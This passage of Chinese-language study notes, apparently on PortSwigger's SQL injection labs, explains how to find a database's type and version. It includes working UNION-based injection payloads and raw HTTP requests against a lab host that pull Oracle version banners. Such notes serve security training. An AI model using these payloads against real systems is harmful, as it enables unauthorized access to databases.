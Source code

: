 * 資料庫軟體的類型和版本。
* 資料庫包含的資料表和欄位。

### 查詢資料庫類型和版本

您可以透過注入特定供應商的查詢來識別資料庫類型和版本，看看哪一個有效。

以下是一些針對熱門資料庫類型判斷資料庫版本的查詢：

| 資料庫類型 | 查詢 |
|-----------|------|
| Microsoft、MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

例如，您可以使用以下輸入進行 `UNION` 攻擊：

```sql
' UNION SELECT @@version--
```

這可能會回傳以下輸出。在此情況下，您可以確認資料庫是 Microsoft SQL Server 並查看所使用的版本：

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

::: tip Lab: [SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

1. 這是一個正常的請求
    ```http
    GET /filter?category=Gifts HTTP/2
    Host: 0a5c000f0359c0f0807b176700d9006c.web-security-academy.net
    ```
2. 透過 UNION 確認共有 2 個欄位
    ```http
    GET /filter?category=Gifts'+UNION+SELECT+NULL+FROM+v$version-- HTTP/2

    GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL+FROM+v$version-- HTTP/2

    GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL,NULL+FROM+v$version-- HTTP/2
    ```
3. 取得版本資訊完成此 Lab
    ```http
    GET /filter?category=Gifts'+UNION+SELECT+BANNER,NULL+FROM+v$version-- HTTP/2
    ```
:::

::: tip Lab: [SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
